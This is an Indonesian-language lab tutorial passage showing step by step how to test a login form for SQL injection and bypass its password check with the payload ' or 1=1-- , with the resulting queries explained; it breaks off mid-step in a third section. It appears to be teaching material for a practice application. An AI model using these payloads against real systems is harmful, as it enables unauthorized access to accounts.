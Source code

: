 Lesson 5
--------
### SQL Injection: Single Quote Test On Username Field
- **Step 1**    : Buka Login/Register
    ![](/assets/lesson-5/login-register.png)
- **Step 2**    : Ketik `'` di kolom **Name**    
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/quote_test.png)
- **Step 4**    : Anda akan mendapatkan error, jika terjadi error setelah anda login dengan **Name** `'`, berarti backend dari sistem rentan terhadap SQL Injection
    ![](/assets/lesson-5/quote_test_error.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username=''' AND password=''
    ```
    - Query Normal:
    ```
    SELECT * FROM accounts WHERE username='admin' AND password='adminpass'
    ```
    
### SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/laporan-1/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/laporan-1/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
    
### SQL Injection: Single Quote Test On Password Field
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `samurai` di kolom **Name**
- **Step 3**    : Klik Kanan di kolom **Password**
- **step 4**    : Klik **Inspect Element**





    
